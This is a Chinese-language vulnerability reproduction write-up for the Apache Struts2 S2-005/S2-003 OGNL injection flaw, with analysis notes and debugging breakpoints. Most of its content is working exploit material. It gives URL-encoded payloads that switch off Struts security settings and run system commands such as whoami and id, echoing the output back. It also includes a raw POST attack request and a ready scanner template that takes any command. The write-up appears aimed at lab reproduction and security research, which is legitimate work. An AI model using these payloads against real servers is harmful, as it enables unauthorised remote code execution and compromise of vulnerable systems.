

## 1.漏洞简介
官方描述：
https://cwiki.apache.org/confluence/display/WW/S2-005

s2-005是对s2-003的绕过，s2-003通过将#字符加入了黑名单来限制简单对象的执行，但是#字符可通过编码来绕过，比如：unicode编码（\u0023)或者8进制（\43）。
```java
('\u0023' + 'session\'user\'')(unused)=0wn3d

which will look as follows once URL encoded:

('\u0023'%20%2b%20'session\'user\'')(unused)=0wn3d
```


而后为了修复，官方增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等来修补。但是并没有完全解决该漏洞，ognl表达式依旧可以执行，通过ognl表达式将安全配置修改即可绕过再次导致了该漏洞。

### 影响范围：
Struts 2.0.0 - Struts 2.1.8.1

## 2.poc测试

网上复现大多推荐采用tomcat6，因为在高版本的tomcat中#.[]()等字符出现在高版本中可能会引发404错误。

这个可以通过编码来解决，不一定需要低版本tomct。

```shell
result=r"(#context[%22xwork.MethodAccessor.denyMethodExecution%22]=new java.lang.Boolean(false),#_memberAccess[%22allowStaticMethodAccess%22]= new java.lang.Boolean(true),@java.lang.Runtime@getRuntime().exec('open -a Calculator'))(meh)&z[(name)('meh')]=true"

# result=poc.replace('u0023','#')
# result=result.replace('u003d','=')
# result=result.replace('u005c','\\')
#
result = result.replace('#', '%23')
# result = result.replace('=', '\\75')
result = result.replace(' ', '%20')
result = result.replace('(', '%28')
result = result.replace('\'', '%27')
result = result.replace('"', '%22')
result = result.replace('\\', '%5C')
result = result.replace(')', '%29')
result = result.replace('[', '%5b')
result = result.replace(']', '%5d')

print(result)
```

以下是本人测试通过的poc。

vulhub环境：
tomcat版本： Apache Tomcat/8.5.14
jdk版本：1.8.0_121

无回显的命令执行：
```java
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22calc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

有回显得poc探测：
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

有回显的命令执行：
```java
(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27whoami%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
```


```java
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: IP:8080
Content-Length: 623

redirect:${`%`23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27id%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```


s2-003。
https://github.com/0linlin0/Struts2_Vul_Debug

tomcat版本： Tomcat 7.0.109
jdk版本：1.7


有回显的paylaod:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29%5C75true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43mycmd%5C75%5C%27whoami%5C%27%27%29%28d%29%29&%28h%29%28%28%27%5C43myret%5C75@java.lang.Runtime@getRuntime%28%29.exec%28%5C43mycmd%29%27%29%28d%29%29&%28i%29%28%28%27%5C43mydat%5C75new%5C40java.io.DataInputStream%28%5C43myret.getInputStream%28%29%29%27%29%28d%29%29&%28j%29%28%28%27%5C43myres%5C75new%5C40byte%5b51020%5d%27%29%28d%29%29&%28k%29%28%28%27%5C43mydat.readFully%28%5C43myres%29%27%29%28d%29%29&%28l%29%28%28%27%5C43mystr%5C75new%5C40java.lang.String%28%5C43myres%29%27%29%28d%29%29&%28m%29%28%28%27%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28n%29%28%28%27%5C43myout.getWriter%28%29.println%28%5C43mystr%29%27%29%28d%29%29
```

有回显的poc:
```java
%28%27%5C43_memberAccess.allowStaticMethodAccess%27%29%28a%29=true&%28b%29%28%28%27%5C43context%5b%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27%5d%5C75false%27%29%28b%29%29&%28%27%5C43c%27%29%28%28%27%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET%27%29%28c%29%29&%28g%29%28%28%27%5C43req%5C75@org.apache.struts2.ServletActionContext@getRequest%28%29%27%29%28d%29%29&%28i2%29%28%28%27%5C43xman%5C75@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28d%29%29&%28i97%29%28%28%27%5C43xman.getWriter%28%29.println%28540.8053*217.4633%29%27%29%28d%29%29&%28i99%29%28%28%27%5C43xman.getWriter%28%29.close%28%29%27%29%28d%29%29
```

## 3.漏洞分析跟踪

`docker-compose up -d`运行镜像会将docker里的war包拷贝到本地。

运行调试只需要将war包拷贝到tomcat的webapps，解压使用idea打开配置tomcat进行调试即可。


导入Libraries


### 断点位置

S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\DefaultActionInvocation.class#invoke()194行


`this.resultCode = interceptor.getInterceptor().intercept(this);`这段代码就是去执行拦截器.


S2-005\WEB-INF\lib\xwork-core-2.1.6.jar!\com\opensymphony\xwork2\ognl\OgnlValueStack.class#setValue()128行


This.ognlUtil.setValue执行表达式。

## 4.psf exp编写

```java
name: poc-yaml-struts2-003-005-rce-attack
options:
  command: require
set:
  command1: urlencode(command)
rules:
  - method: GET
    path: ?(%27%5c43_memberAccess.allowStaticMethodAccess%27)(a)=true&(b)((%27%5c43context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5c75false%27)(b))&(%27%5c43c%27)((%27%5c43_memberAccess.excludeProperties%5c75@java.util.Collections@EMPTY_SET%27)(c))&(g)((%27%5c43mycmd%5c75%5c%27{{command1}}%5c%27%27)(d))&(h)((%27%5c43myret%5c75@java.lang.Runtime@getRuntime().exec(%5c43mycmd)%27)(d))&(i)((%27%5c43mydat%5c75new%5c40java.io.DataInputStream(%5c43myret.getInputStream())%27)(d))&(j)((%27%5c43myres%5c75new%5c40byte[51020]%27)(d))&(k)((%27%5c43mydat.readFully(%5c43myres)%27)(d))&(l)((%27%5c43mystr%5c75new%5c40java.lang.String(%5c43myres)%27)(d))&(m)((%27%5c43myout%5c75@org.apache.struts2.ServletActionContext@getResponse()%27)(d))&(n)((%27%5c43myout.getWriter().println(%5c43mystr)%27)(d))
    search: |
      (?ms)\r\n\r\n(?P<content>.*?)\n\0
    expression:
      response.status ==200
detail:
  author: h11ba1
  category: code-exec
  gevid:
  extend: "{{content}}"
  level: 4
  suffix: .action|.do|.jsp|.page|null|!.php
  type: postcrawl
```

运行效果如下：



